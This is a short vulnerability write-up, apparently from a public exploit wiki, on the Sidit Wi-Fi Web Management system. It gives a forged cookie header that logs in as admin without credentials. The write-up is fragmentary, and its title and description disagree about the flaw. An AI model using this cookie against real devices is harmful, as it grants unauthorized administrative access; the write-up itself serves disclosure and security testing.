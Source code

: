 # Sidit Wi-Fi Web Management Cookies Overreach of Access Vulnerability

## Vulnerability Description

Sidit Wi-Fi Web Management System Insufficient Backend Filtering Causes Remote Command Execution Vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Sidit Wi-Fi Web Management</span>

## Network surveying and mapping



## Vulnerability recurrence o

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629371298672-1ceeafe8-ba9c-42c5-b873-3dfabdd0305a.png)

Add cookies to log in to the background

```bash
Cookie: timestamp=0; cooLogin=1; cooUser=admin
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629371805870-5f6a3a10-7c92-481c-97fe-46886dd474b6.png)

